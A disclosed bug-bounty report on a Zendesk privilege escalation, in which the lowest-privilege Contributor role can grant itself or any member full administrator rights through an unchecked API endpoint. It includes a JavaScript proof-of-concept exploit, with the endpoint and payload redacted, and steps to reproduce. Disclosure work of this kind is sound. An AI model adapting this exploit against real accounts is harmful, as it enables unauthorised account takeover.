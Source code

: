 # Privilege escalation - Support-Contributor to Support and Product Admin via `/api/v2/██████` . No ADMIN PRIVILEGE required.

## Report Details
- **Report ID**: 2188569
- **URL**: https://hackerone.com/reports/2188569
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-10-01T12:00:40.172Z
- **Disclosed**: 2023-12-18T20:05:21.306Z

## Reporter
- **Username**: cybxis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zendesk

## Vulnerability Information
Hello team, I am reporting another privilege escalation issue where a lowest privilege member(Support-Contributor) to full Support and Product administrator.  Tested in Zendesk Enterprise(Sponsored) and Trial Account.

From my past reports I was able to find privilege escalation issues on the endpoint `/api/███` . The difference is, to perform a privilege escalation on the said endpoint, there should be at least one Product Admin privilege on the actor's account but this report does not require any Admin privilege(just the lowest privilege alone).

## Summary:
The [Contributor Role](https://support.zendesk.com/hc/en-us/articles/4408832171034-About-team-member-product-roles-and-access) is the lowest Support role in Zendesk. In the UI alone, as a contributor, the accessible pages and and endpoints are very limited. With this role, the members page is not even accessible or restricted. With these restrictions, escalating your own role seem to be impossible.

##Improper Access Control to Privilege Escalation
Vulnerable Endpoint: `PUT /api███ HTTP/2`

The `/api████████` endpoint is used for API integration to █████. █████████ . However, the said endpoint does not validate the privilege of the user who is sending a request. With this bug, a member with even just the lowest privilege(Contributor) is able to escalate any members' privilege to `FULL ADMINISTRATOR` including its own privilege.

## Browsers Verified In:
Latest version of Chrome and Firefox

##Exploit
```javascript
//Exploit
//get csrf token and id
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var profile = JSON.parse(this.responseText);
        var csrf = profile.user.authenticity_token;
		var id = profile.user.id;
        escalate(id, csrf);
    }
};

xhttp.open("GET", "https://" + document.domain + "/api/v2/users/me.json");
xhttp.send();


//privilege escalation function
function escalate(id, csrf) {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            console.log(this.responseText);
        }
    };

    xhttp.open("PUT", "https://" + document.domain + "/api██████;
    xhttp.setRequestHeader("X-Csrf-Token", csrf);
    xhttp.setRequestHeader("Content-Type", "application/json");
    xhttp.send(JSON.stringify(███));
}
```

## Steps To Reproduce:
`On owner/admin account`
1. Go to https://<domain>.zendesk.com/admin/people/team/members/new
2. Provide the name and email of the agent
3. Click Next
4. Set the Support role to CONTRIBUTOR
5. Go to https://<domain>.zendesk.com/admin/people/team/members
6. Click the profile on the invited user
7. Now set the roles to Support-Contributor only and `DISABLE` any product access(just to prove that no other privilege is required).

`On invited user`
8. You will receive an email. Click it to accept the invitation
9. Login the invited account
10. Execute the exploit to escalate your privileges.

## Demo And PoC
On Enterprise account
███
On Trial account
███

## Impact

Privilege escalation - Support-Contributor to Support and Product Admin.

## Attachments
No attachments
